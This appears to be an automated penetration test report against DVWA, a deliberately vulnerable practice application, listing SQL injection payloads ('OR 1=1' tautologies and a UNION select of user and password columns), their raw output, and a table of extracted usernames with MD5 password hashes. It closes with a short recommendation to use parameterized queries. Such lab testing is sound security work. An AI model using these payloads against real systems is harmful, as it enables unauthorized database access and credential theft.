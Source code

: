 # Automated Web Pentest Report

**Scan Date:** 2025-06-12T06:29:42.829494Z  
**Target:** DVWA

## Executive Summary
- Total vulnerabilities tested: 4  
- Successful exploits: 3  
- Risk Level: **Critical**

## Test Cases Table

| # | Payload | Status | Severity |
|---|---------|--------|----------|
| 1 | `' OR '1'='1` | Success | Critical |
| 2 | `' OR 1=1 #` | Success | Critical |
| 3 | `' union select user, password from users#` | Success | Critical |
| 4 | `addadasddad` | Fail | Low |

## Evidence Details

### [1] Payload: `' OR '1'='1`
```
ID: ' OR '1'='1
First name: admin
Surname: admin

ID: ' OR '1'='1
First name: Gordon
Surname: Brown

ID: ' OR '1'='1
First name: Hack
Surname: Me

ID: ' OR '1'='1
First name: Pablo
Surname: Picasso

ID: ' OR '1'='1
First name: Bob
Surname: Smith
```

### [2] Payload: `' OR 1=1 #`
```
ID: ' OR 1=1 #
First name: admin
Surname: admin

ID: ' OR 1=1 #
First name: Gordon
Surname: Brown

ID: ' OR 1=1 #
First name: Hack
Surname: Me

ID: ' OR 1=1 #
First name: Pablo
Surname: Picasso

ID: ' OR 1=1 #
First name: Bob
Surname: Smith
```

### [3] Payload: `' union select user, password from users#`
```
ID: ' union select user, password from users#
First name: admin
Surname: 5f4dcc3b5aa765d61d8327deb882cf99

ID: ' union select user, password from users#
First name: gordonb
Surname: e99a18c428cb38d5f260853678922e03

ID: ' union select user, password from users#
First name: 1337
Surname: 8d3533d75ae2c3966d7e0d4fcc69216b

ID: ' union select user, password from users#
First name: pablo
Surname: 0d107d09f5bbe40cade3de5c71e9e9b7

ID: ' union select user, password from users#
First name: smithy
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
```

### [4] Payload: `addadasddad`
```
User ID:
```

## Extracted Users

| # | Username | Password/Hash |
|---|----------|---------------|
| 1 | admin | 5f4dcc3b5aa765d61d8327deb882cf99 |
| 2 | gordonb | e99a18c428cb38d5f260853678922e03 |
| 3 | 1337 | 8d3533d75ae2c3966d7e0d4fcc69216b |
| 4 | pablo | 0d107d09f5bbe40cade3de5c71e9e9b7 |
| 5 | smithy | 5f4dcc3b5aa765d61d8327deb882cf99 |

## Recommendations
- Use parameterized queries (prepared statements) for all database access. Always validate and sanitize user input.  
